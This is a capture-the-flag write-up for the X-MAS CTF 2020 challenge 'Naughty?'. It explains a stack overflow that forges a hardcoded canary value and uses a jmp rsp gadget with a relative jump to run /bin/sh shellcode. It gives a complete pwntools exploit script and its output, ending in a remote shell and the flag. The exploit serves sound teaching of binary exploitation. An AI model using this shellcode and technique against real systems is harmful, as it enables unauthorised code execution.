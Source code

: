 # X-MAS CTF 2020

## Naughty?

> 50
>
> You haven't been naughty, have you?
>
> Target: `nc challs.xmas.htsp.ro 2000`
> 
> Author: Th3R4nd0m
> 
> [naughty.zip](naughty.zip)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _shellcode_ _remote-shell_


## Summary

Constrained space shellcode exploit triggered with a relative jump--_naughty_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations in place.  Choose your own adventure.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  char local_38 [46];
  short local_a;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  local_a = -0x1b01;
  puts("Tell Santa what you want for XMAS");
  fgets(local_38,0x47,stdin);
  puts("Nice. Hope you haven\'t been naughty");
  if (local_a != -0x1b01) {
    puts("Oh no....no gifts for you this year :((");
    exit(0);
  }
  return 0;
}
```

Vulnerability `fgets(local_38,0x47,stdin)` is writing up to `0x47` bytes into a `46` byte buffer that is `0x38` (`local_38`) bytes from the return address.  Along they way `local_a` must be set to `-0x1b01`--_think hardcoded canary_.

To overflow the return address we'll have to send `0x38 - 0xa` (46) bytes of garbage followed by the 2 bytes `-0x1b01` to pass the check, followed by `0x38 - (0x38 - 0xa) - 2` (8) more bytes of garbage.  The total payload to get to the return address should be `0x38` (56) bytes in length.

`fgets` reads one less than size (`0x47`) giving a max ROP overflow of `0x46 - 0x38` (14) bytes.  That's only enough space for one ROP call (well, two ROP calls since (as of this writing) x86_64 addresses are 48-bits (6 bytes)).  And there's no easy `win` function.

Given NX is disabled that natural place to write shellcode would be in `local_38`, as long as that code fits within 46 bytes (easy).

_But how do we call it?_

Simpler challenges like this conveniently leave `rax` pointing to the buffer and a simple `call rax` or `jmp rax` gadget can be used, however setting a checkpoint at `leave` and examining the registers illustrates we're on our own:

```
➜ 20.04 naughty # gef chall
Reading symbols from chall...
(No debugging symbols found in chall)
GEF for linux ready, type `gef' to start, `gef config' to configure
80 commands loaded for GDB 9.2 using Python engine 3.8
gef➤  b *0x4006d4
Breakpoint 1 at 0x4006d4
gef➤  run
Starting program: /pwd/datajerk/xmasctf2020/naughty/chall
Tell Santa what you want for XMAS
flags
```

After the break:

```
$rax   : 0x0
$rbx   : 0x00000000004006e0  →   push r15
$rcx   : 0x00007ffff7ed21e7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffe360  →  0x00000a7367616c66 ("flags\n"?)
$rbp   : 0x00007fffffffe390  →  0x0000000000000000
$rsi   : 0x00007ffff7fad723  →  0xfaf4c0000000000a
$rdi   : 0x00007ffff7faf4c0  →  0x0000000000000000
$rip   : 0x00000000004006d4  →   leave
$r8    : 0x24
$r9    : 0x0
$r10   : 0x00007ffff7fef320  →   pxor xmm0, xmm0
$r11   : 0x246
$r12   : 0x0000000000400550  →   xor ebp, ebp
$r13   : 0x00007fffffffe480  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
```

However, `rsp` is pointing at our input (`flags`), _why not `jmp rsp`?_

Well, `si` once and you'll see that `leave` just _left_ you hanging:

```
$rax   : 0x0
$rbx   : 0x00000000004006e0  →   push r15
$rcx   : 0x00007ffff7ed21e7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffe398  →  0x00007ffff7de80b3  →  <__libc_start_main+243> mov edi, eax
```

`rsp` now pointing to back to libc.  This will be popped into `rip` (we didn't overwrite the return address yet).

If we overwrite the return address with a `jmp rsp` gadget, that call will be popped off the stack and `rsp` pointed to the next down stack line (our last 6 bytes), then `rip` will be pointing to the `jmp rsp` gadget.  So, that leaves us (14 - 8 (for the `jmp rsp`)) 6 bytes for our shellcode.

There's not a lot you can do with 6 bytes but perhaps `jmp` someplace else (I could be wrong), in any case, we only need 2 bytes to relatively jump back `0x40` (`0x38` + 8 for the `jmp rsp` gadget) bytes to the start of `local_38` where we can easily fit some shellcode.

> As I write this I'm wondering if there is an easier ROP chain of 2 gadgets, but nothing is coming to mind.  When I worked on this I did some bad mental math and thought I only had `4` bytes to work with, so assumed `jmp rsp`, then some type stack pivot or relative jump in assembly.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall')
context.log_level = 'INFO'

if args.REMOTE:
    p = remote('challs.xmas.htsp.ro', 2000)
else:
    p = process(binary.path)

# http://shell-storm.org/shellcode/files/shellcode-905.php
shellcode  = b''
shellcode += b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf'
shellcode += b'\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54'
shellcode += b'\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

jmp_rsp = list(binary.search(asm('jmp rsp')))[0]

```

`ropper --file chall` reveals there's a `jmp rsp` gadget, so after finding online some shellcode <= 46 bytes in length, we just need to find the location of the `jmp rsp` gadget within `chall`, and since `chall` has no PIE, there's no need to leak a base process address.

```python
payload  = b''
payload += shellcode
payload += (0x38 - 0xa - len(payload)) * b'A'
payload += p16(0x10000 - 0x1b01)
payload += (0x38 - len(payload)) * b'A'
payload += p64(jmp_rsp)
payload += asm('jmp $-0x40')

p.sendlineafter('for XMAS\n', payload)
p.interactive()
```

The payload is basically as described in the analysis section above:

1. write out shellcode
2. pad out to stack offset `0xa`
3. write out the 2-byte _faux_ hardcoded canary `-0x1b01`
4. pad out to the return adddress
5. call the `jmp rsp` gadget, that will then just execute the assembly below it
6. add a 2 bytes of assembly that `jmp` relative back `0x40` bytes to our shellcode

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/xmasctf2020/naughty/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challs.xmas.htsp.ro on port 2000: Done
[*] Switching to interactive mode
Nice. Hope you haven't been naughty
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}
```

